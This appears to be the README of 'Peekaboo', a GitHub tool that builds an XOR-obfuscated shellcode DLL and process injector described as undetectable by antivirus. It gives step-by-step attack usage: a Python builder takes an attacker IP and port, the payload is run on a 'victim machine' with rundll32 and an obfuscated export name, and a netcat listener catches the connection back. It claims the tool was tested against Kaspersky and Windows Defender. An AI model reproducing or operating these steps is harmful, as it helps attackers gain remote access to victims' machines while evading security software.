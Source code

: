 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `calc.exe` as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/1.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 10.9.1.6 -p 4444
```

![run python script](./screenshots/2.png?raw=true)

### then on victim machine (windows x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, BMzUWjfJOsdaiCQzbTLM
```

![run on victim machine](./screenshots/3.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/4.png?raw=true)

example:
![final](./screenshots/5.png?raw=true)

## 2.Injector
### on attacker machine:
run python script on linux:
```bash
python3 peekaboo-inj.py -l 10.10.14.3 -p 4444
```

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

### then on victim machine (windows x64):
```
.\peekaboo.exe
```

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 10 x64
3. Payload: Calc.exe
4. AV Engines: Kaspersky, Windows Defender

## TODO
Compile injector in Kali linux

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
